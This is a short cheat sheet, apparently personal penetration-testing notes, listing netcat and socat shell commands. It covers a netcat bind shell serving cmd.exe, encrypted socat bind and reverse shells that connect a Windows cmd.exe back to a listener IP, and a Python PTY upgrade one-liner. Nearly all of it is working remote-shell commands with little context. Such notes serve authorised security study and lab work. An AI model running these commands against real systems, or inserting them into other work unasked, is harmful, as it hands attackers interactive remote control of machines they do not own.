 # Shells - Netcat and Socat

## Windows Netcat Bind shells

Shell waiting for incoming connection

```bash
nc -nlvp 4444 -e cmd.exe
```

Connecting to shell

```bash
nc -nv <ip address> 4444
```

## Socat

Encrypted Windows bind shell

```bash
socat OPENSSL-LISTEN:443,cert=bind_shell.pem,verify=0 EXEC:cmd.exe,pipes
```

Encrypted connection to bind shell

```bash
socat - OPENSSL:192.168.227.10:443,verify=0 
```

Encrypted Reverse shell listener

````bash
socat -d -d OPENSSL-LISTEN:443,cert=rev_shell.pem,verify=0,fork STDOUT 
````

Encrypted Reverse shell connection from Windows

```bash
socat OPENSSL:192.168.119.128:443,verify=0 EXEC:cmd.exe,pipes
```

## Upgrading shells

````bash
python -c "import pty;pty.spawn('/bin/bash')"
````


